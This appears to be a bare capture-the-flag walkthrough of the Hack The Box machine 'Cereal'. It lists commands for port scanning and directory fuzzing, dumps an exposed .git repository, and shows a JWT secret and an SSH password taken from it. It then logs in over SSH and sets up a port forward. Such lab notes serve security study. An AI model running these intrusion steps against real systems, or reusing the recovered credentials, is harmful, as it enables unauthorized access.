 ```
https://10.10.10.217/login
```
![image](https://github.com/user-attachments/assets/5c7d113c-aacd-4556-8a17-01b3ca8d87b2)

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.217
```
![image](https://github.com/user-attachments/assets/063c1d25-bfd8-4859-b1f2-8d9a9bfc2927)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://10.10.10.217/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://cereal.htb/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/6f4937eb-93eb-4c74-9195-6bb7abddaac1)

![image](https://github.com/user-attachments/assets/a6588324-e85d-4bda-a272-4515d3d54104)

```
https://source.cereal.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://source.cereal.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/45d1d706-700a-44eb-908f-9757cf7cb270)

![image](https://github.com/user-attachments/assets/a3f6721e-9fa2-459a-a9bb-e8a2253efff4)

```
git-dumper https://source.cereal.htb/.git /home/itsec/Documents/HTB-Cereal/2
```
![image](https://github.com/user-attachments/assets/81b31c65-c0ac-4714-9e08-8287c83ae335)

```
cat UsersController.cs
cat UserService.cs
```
![image](https://github.com/user-attachments/assets/b629ff41-0599-4c81-87a3-5402448c525f)

![image](https://github.com/user-attachments/assets/9559eb56-d0a4-4154-97bd-06d8fbd7414f)

```
git log –p
secretlhfIH&FY*#oysuflkhskjfhefesf
```
![image](https://github.com/user-attachments/assets/3a125a01-fce2-4dcd-a3fb-8b7d5d431352)

![image](https://github.com/user-attachments/assets/0406c72d-9d63-45ae-bf60-9620f899015f)

```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/5ead8bdf-a080-4cb3-9a75-768775ae6077)


```
whoami /priv
Get-ComputerInfo
```
![image](https://github.com/user-attachments/assets/803fe227-986d-4bb8-b4c5-40bb7fe2a417)


```
ssh -L 8080:127.0.0.1:8080 sonny@cereal.htb
http://localhost:8080/
```
![image](https://github.com/user-attachments/assets/4e1b7fba-30b4-4f47-89c1-f5b6d02eec86)

![image](https://github.com/user-attachments/assets/79c79330-3ca6-4eae-96bf-2811559a418c)
